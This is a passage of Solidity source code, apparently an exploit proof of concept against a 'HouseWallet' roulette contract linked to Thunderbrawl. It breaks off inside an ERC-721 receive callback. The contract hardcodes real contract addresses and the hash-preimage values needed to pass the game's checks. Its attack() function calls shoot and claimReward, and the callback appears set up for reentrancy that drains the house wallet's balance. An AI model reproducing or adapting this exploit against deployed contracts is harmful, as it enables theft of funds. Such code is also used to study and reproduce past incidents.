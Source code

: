 ```solidity
        uint256 _ID,
        address payable _player,
        uint256 _amount,
        bool _rewardStatus,
        uint256 _x,
        string memory name,
        address _add
    ) external;
    function shoot(
        uint256 random,
        uint256 gameId,
        bool feestate,
        uint256 _x,
        string memory name,
        address _add,
        bool nftcheck,
        bool dystopianCheck
    ) external payable;
}

contract ContractTest{

    HouseWallet houseWallet = HouseWallet(0xae191Ca19F0f8E21d754c6CAb99107eD62B6fe53);
    uint256 randomNumber =  12345678000000000000000000;

    uint256 gameId = 1;
    bool feestate = false;
     // sha256(abi.encode(_x, name, _add)) == hashValueTwo maybe off-chain calculate
    uint256 _x = 2845798969920214568462001258446;
    string  name = "HATEFUCKINGHACKERSTHEYNEVERCANHACKTHISIHATEPREVIOUS";
    address _add = 0x6Ee709bf229c7C2303128e88225128784c801ce1;

    bool nftcheck = true;
    bool dystopianCheck = true;

    address payable add = payable(address(this));
    bool _rewardStatus = true;
    // sha256(abi.encode(_x, name, _add)) == hashValue  maybe off-chain calculate
    uint256 _x1 = 969820990102090205468486;
    string name1 = "WELCOMETOTHUNDERBRAWLROULETTENOWYOUWINTHESHOOTINGGAME";
    IERC721 THBR = IERC721(0x72e901F1bb2BfA2339326DfB90c5cEc911e2ba3C); // Thunderbrawl Roulette Contract

	receive() external payable {}

    function attack() public{
        houseWallet.shoot{value: 0.32 ether}(randomNumber, gameId, feestate, _x, name, _add, nftcheck, dystopianCheck);
        uint256 _amount = houseWallet.winners(gameId, add);
        houseWallet.claimReward(gameId, add, _amount, _rewardStatus, _x1, name1, _add);
    }
    
    function onERC721Received(
        address _operator, 
        address _from, 
        uint256 _tokenId, 
        bytes calldata _data
        ) 
        payable 
        external 
        returns (bytes4){
            uint256 _amount = houseWallet.winners(gameId, add);
            if(address(houseWallet).balance >= _amount * 2){
```